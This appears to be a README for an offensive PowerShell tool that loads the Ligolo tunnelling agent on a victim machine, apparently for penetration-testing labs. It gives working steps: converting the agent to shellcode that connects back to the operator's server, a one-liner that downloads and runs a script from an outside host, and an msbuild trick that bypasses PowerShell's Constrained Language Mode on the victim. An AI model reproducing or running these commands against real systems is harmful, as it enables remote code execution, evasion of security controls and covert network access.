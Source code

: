 ## Powershell Shellcode Runner 
1. Make sure to convert `agent.exe` of Ligolo to shellcode:

- `donut -f 1 -o agent.bin -a 2 -p "-connect your-server:11601 -ignore-cert" -i agent.exe`

2. Make sure you are running as x64 bit process before running: 

Powershell:
- `[Environment]::Is64BitProcess`

CMD: 
- `set p` (Should show `PROCESSOR_ARCHITECTURE=AMD64`)

3. Inside `ligolo.ps1`, make sure to update line 14 (`$url = "http://192.168.45.168/agent.bin"`) to point to your machine IP address before invoking it.

4. make sure both `ligolo.ps1` and `agent.bin` in the same directory, then serve them by simply using python server*.

5. Invoke the script:
- `iex(iwr http://192.168.45.173:443/ligolo.ps1 -UseBasicParsing)`

## CLM Bypass

`ligolo-clmbypass.xml` can be used to load Ligolo agent with bypassing Constrained Language Mode.

- Make sure to prepare `ligolo.ps1` file and serve it using python server.

Upload to the victim and run (Make sure to change to your IP Address in the file):

- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe ligolo-clmbypass.xml`
